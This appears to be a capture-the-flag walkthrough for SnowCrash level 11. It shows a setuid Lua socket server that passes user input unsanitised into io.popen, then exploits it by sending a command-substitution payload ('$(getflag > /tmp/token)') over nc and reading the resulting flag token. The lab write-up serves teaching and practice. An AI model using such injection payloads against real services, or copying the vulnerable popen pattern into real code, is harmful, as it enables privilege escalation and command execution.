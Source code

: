 # Level11

## Walkthrough

We list the files in the current home directory.

```bash
level11@SnowCrash:~$ ls -la
total 16
dr-xr-x---+ 1 level11 level11  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level11 level11  220 Apr  3  2012 .bash_logout
-r-x------  1 level11 level11 3518 Aug 30  2015 .bashrc
-r-x------  1 level11 level11  675 Apr  3  2012 .profile
-rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua
level11@SnowCrash:~$ file level11.lua 
level11.lua: setuid setgid a lua script, ASCII text executable
```

We check the content of the lua script.

```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

The script seems to:
- start a socket listening on `localhost` port `5151`
- accept connections and waits for a message
- hash the received message with the `sha-1` algorithm and print a text depending of the result

We check every used lua functions in the script in order to check if one is exploitable. The `popen()` function executes a shell command in a separate process. It is calling the `echo` command in the current script, concatenated with our message.  
Like previous levels, we may be able to exploit the script with a command substitution.

```bash
level11@SnowCrash:~$ nc localhost 5151
Password: $(getflag)
Erf nope..
```

The `popen()` function stores its output in the `prog` variable. To counter this, we have to save the result of the `getflag` command in a file inside `/tmp`.

```bash
level11@SnowCrash:~$ nc localhost 5151
Password: $(getflag > /tmp/token)
Erf nope..
level11@SnowCrash:~$ cat /tmp/token
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```
